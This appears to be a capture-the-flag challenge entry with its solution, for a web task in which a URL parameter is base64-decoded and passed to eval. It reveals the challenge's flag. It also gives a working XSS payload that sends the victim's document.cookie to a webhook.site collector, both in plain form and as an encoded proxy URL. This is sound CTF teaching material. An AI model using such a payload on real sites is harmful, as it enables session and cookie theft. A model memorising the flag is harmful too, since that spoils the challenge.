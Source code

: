 # Challenge Name:
cross-site

## Description:
basic vuln that can be so many $$$ in bounties

## Category:
Web

## File:
./dist.zip

## Flag:
`STORM{easy_xss_with_encoded_payload_00fe4bacb1dd}`

## Points:
500

## Author:
k.eii

## PoC
```
    if (url.searchParams.has("key")) {
        let key = url.searchParams.get("key");

        try {
            key = atob(key);
            if (key.includes("run")) {
                eval(key.replace("run", ""));
```
eval key param (base64 encoded needed because of atob)

payload:
`run(fetch('https://webhook.site/b25e1e98-59b2-493d-8c47-90b97d9aa25f?' + document.cookie));`

`http://proxy/?key=cnVuKGZldGNoKCdodHRwczovL3dlYmhvb2suc2l0ZS9iMjVlMWU5OC01OWIyLTQ5M2QtOGM0Ny05MGI5N2Q5YWEyNWY/JyArIGRvY3VtZW50LmNvb2tpZSkpOw==`
